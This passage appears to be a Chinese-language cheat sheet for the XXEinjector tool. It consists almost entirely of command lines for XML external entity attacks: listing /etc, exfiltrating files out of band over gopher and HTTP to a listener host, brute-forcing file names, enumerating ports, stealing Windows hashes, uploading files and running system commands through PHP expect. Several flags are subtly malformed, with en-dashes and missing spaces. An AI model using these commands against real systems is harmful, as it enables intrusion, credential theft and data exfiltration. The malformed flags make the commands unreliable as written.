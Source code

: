 ```bash
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt –ssl
```

使用gopher（OOB方法）枚举/etc目录

```bash
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
```

二次漏洞利用

```bash
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt--2ndfile=/tmp/2ndreq.txt
```

使用HTTP带外方法和netdoc协议对文件进行爆破攻击

```bash
ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt--file=/tmp/req.txt --oob=http –netdoc
```

通过直接性漏洞利用方式进行资源枚举

```bash
ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
```

枚举未过滤的端口

```bash
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
```

窃取Windows哈希

```bash
ruby XXEinjector.rb--host=192.168.0.2 --file=/tmp/req.txt –hashes
```

使用Java jar上传文件

```bash
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt--upload=/tmp/uploadfile.pdf
```

使用PHP expect执行系统指令

```bash
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter--expect=ls
```

测试XSLT注入

```bash
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt –xslt
```

记录请求信息

```bash
ruby XXEinjector.rb --logger --oob=http--output=/tmp/out.txt
```
